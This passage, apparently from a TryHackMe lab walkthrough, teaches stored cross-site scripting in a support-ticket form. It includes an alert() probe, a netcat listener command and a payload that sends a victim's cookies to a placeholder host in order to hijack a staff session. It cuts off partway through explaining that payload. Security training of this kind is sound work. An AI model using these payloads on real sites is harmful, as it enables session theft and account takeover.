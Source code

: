 
Like task three, we will investigate how the previously entered text gets reflected on the page. Upon viewing the page source, we can see the text gets placed inside a textarea tag.


![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/bd30b2541fb8186755110f5ec3e84330.png)

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/34e69ee3fce3021fee02a13a680d5d47.png)

Let's now go back and create another ticket. Let's see if we can escape the textarea tag by entering the following payload into the ticket contents:


</textarea>test


Again, opening the ticket and viewing the page source, we've successfully escaped the textarea tag. 

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/e247f6dd0b2ebe0e4e512b16b41cec05.png)

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/0ad04cf010b889a8adfdba9d24bcb826.png)

Let's now expand on this payload to see if we can run JavaScript and confirm that the ticket creation feature is vulnerable to an XSS attack. Try another new ticket with the following payload:


 </textarea><script>alert('THM');</script>


Now when you view the ticket, you should get an alert box with the string THM. We're going to now expand the payload even further and increase the vulnerabilities impact. Because this feature is creating a support ticket, we can be reasonably confident that a staff member will also view this ticket which we could get to execute JavaScript. 


Some helpful information to extract from another user would be their cookies, which we could use to elevate our privileges by hijacking their login session. To do this, our payload will need to extract the user's cookie and exfiltrate it to another webserver server of our choice. Firstly, we'll need to set up a listening server to receive the information.


While using the TryHackMe AttackBox, let's set up a listening server using Netcat:


nc

           
user@machine$ nc -nlvp 9001

        


Now that we've set up the method of receiving the exfiltrated information, let's build the payload.


</textarea><script>fetch('http://{URL_OR_IP}?cookie=' + btoa(document.cookie) );</script>


Let's breakdown the payload:

The </textarea> tag closes the textarea field. 

The <script>tag opens open an area for us to write JavaScript.
